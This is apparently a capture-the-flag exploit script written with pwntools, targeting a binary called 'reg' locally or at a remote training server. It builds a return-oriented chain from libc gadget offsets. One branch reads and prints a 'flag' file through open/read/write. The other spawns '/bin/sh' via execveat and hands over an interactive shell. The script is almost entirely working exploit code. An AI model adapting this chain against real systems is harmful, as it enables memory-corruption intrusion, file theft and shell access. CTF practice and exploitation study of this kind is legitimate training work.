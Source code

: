 ```python
        sh = process('./reg')
        if lo & 0b10:
            gdb.attach(sh, gdbscript='b *$rebase(0x1497)')
    else:
        sh = remote('training.0rays.club', 10084)

    base = libc.symbols['_IO_2_1_stderr_']
    popRdi  = 0x2a3e5 - base
    popRsi  = 0x2be51 - base
    popRdx  = 0x796a2 - base
    popRcx  = 0x3d1ee - base
    popR8  = 0x1657f6 - base
    pushRax = 0x41563 - base
    openAddr  = libc.symbols['open'] - base
    readAddr  = libc.symbols['read'] - base
    writeAddr = libc.symbols['write'] - base
    execveatAddr = libc.symbols['execveat'] - base

    def libcShift(idx, val):
        Set(idx, False, 31)
        Add(idx, True, val)

    Set(31, False, 26) # copy _IO_2_1_stderr_ realAddr to idx 31
    if expected:
        Set(0, True, int(b'flag'[::-1].hex(), 16))
        libcShift(1, popRdi)
        Set(2, False, 32)
        Add(2, True, 0x60 - 0x180) # set rdi = &arr[0] (path)
        libcShift(3, popRsi)
        Set(4, True, 0) # set rsi = 0 (flags = O_RDONLY)
        libcShift(5, openAddr)
        libcShift(6, popRdi)
        Set(7, True, 3) # default fd is 3
        libcShift(8, popRsi)
        Set(9, False, 32)
        Add(9, True, 0x120 - 0x180) # set rsi = &arr[24] (buf)
        libcShift(10, popRdx)
        Set(11, True, 55)
        libcShift(12, readAddr)
        libcShift(13, popRdi)
        Set(14, True, 1)
        libcShift(15, popRdx)
        Set(16, False, 9)
        libcShift(17, writeAddr)
    else:
        Set(0, True, int(b'/bin/sh'[::-1].hex(), 16))
        libcShift(1, popRsi)
        Set(2, False, 32)
        Add(2, True, 0x60 - 0x180) # set rsi = &arr[0] (path)
        libcShift(3, popRdx)
        Set(4, True, 0)
        libcShift(5, popRcx)
        Set(6, True, 0)
        libcShift(7, popR8)
        Set(8, True, 0)
        libcShift(9, execveatAddr) # execveat(??, &"/bin/sh", 0, 0, 0)

    Set(32, False, 2) # stack pivot to arr[1] (modify on rbp)

    sh.sendline(b'3') # return now
    sh.interactive()
```
